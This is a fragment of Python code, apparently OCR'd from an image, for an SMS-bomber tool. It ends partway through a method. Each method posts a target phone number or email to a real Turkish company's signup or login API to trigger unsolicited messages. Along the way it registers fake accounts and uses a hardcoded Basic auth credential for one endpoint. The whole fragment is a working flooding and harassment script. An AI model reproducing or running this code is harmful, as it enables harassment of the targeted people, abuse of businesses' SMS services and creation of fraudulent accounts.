    
    #yilmazticaret.net
    def YilmazTicaret(self):
        try:
            url = "http://www.yilmazticaret.net:80/restapi2/register/"
            headers = {"Authorization": "Basic eWlsbWF6OnlpbG1hejIwMTkqKg=="}
            data = {"telefon": (None, f"0 {self.phone}"),"token": (None, "ExponentPushToken[eWJjFaN_bhjAAbN_rxUIlp]")}
            r = requests.post(url, headers=headers,  data=data, timeout=6)
            if r.json()["giris"] == "success":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> yilmazticaret.net")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> yilmazticaret.net")
    
    
    #yuffi.co
    def Yuffi(self):
        try:
            url = "https://api.yuffi.co/api/parent/login/user"
            json = {"phone": self.phone, "kvkk": True}
            r = requests.post(url, json=json, timeout=6)
            if r.json()["success"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.yuffi.co")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.yuffi.co")
            

    #beefull.com
    def  Beefull(self):
        try:
            url = "https://app.beefull.io:443/api/inavitas-access-management/signup"
            json={"email": self.mail, "firstName": "Memati", "language": "tr", "lastName": "Bas", "password": "123456", "phoneCode": "90", "phoneNumber": self.phone, "tenant": "beefull", "username": self.mail}
            requests.post(url, json=json, timeout=4)
            url = "https://app.beefull.io:443/api/inavitas-access-management/sms-login"
            json={"phoneCode": "90", "phoneNumber": self.phone, "tenant": "beefull"}
            r = requests.post(url, json=json, timeout=4)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> app.beefull.io")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> app.beefull.io")


    #starbucks.com.tr
    def Starbucks(self):
        try:
            url = "https://auth.sbuxtr.com:443/signUp"
            headers = {"Content-Type": "application/json", "Operationchannel": "ios", "Accept": "*/*", "Accept-Encoding": "gzip, deflate, br"}
            json={"allowEmail": True, "allowSms": True, "deviceId": "31", "email": self.mail, "firstName": "Memati", "lastName": "Bas", "password": "31ABC..abc31", "phoneNumber": self.mail, "preferredName": "Memati"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["code"] == 50:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> auth.sbuxtr.com")
                self.adet += 1
            else:
                raise
